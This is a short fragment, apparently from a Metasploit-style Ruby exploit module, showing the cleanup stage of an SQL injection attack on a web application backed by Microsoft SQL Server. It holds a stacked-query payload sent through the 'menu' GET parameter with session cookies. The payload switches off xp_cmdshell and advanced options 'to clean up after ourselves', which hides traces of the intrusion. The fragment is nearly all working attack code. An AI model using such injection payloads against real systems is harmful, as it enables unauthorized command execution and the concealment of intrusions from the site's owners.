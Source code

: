 ```
    # Deactivate XPCmdShell
    sqli = "main';exec sp_configure 'xp_cmdshell', 0 ;RECONFIGURE;exec sp_configure 'show advanced options', 0 ;RECONFIGURE;--"
    print_status("#{peer} - Deactivating xp_cmdshell to clean up after ourselves..")

    res = send_request_cgi({
      'method'    => 'GET',
      'uri'       => uri,
      'cookie'    => cookies,
      'vars_get' => {
        'menu' => sqli,
      }
    })

  end
end
```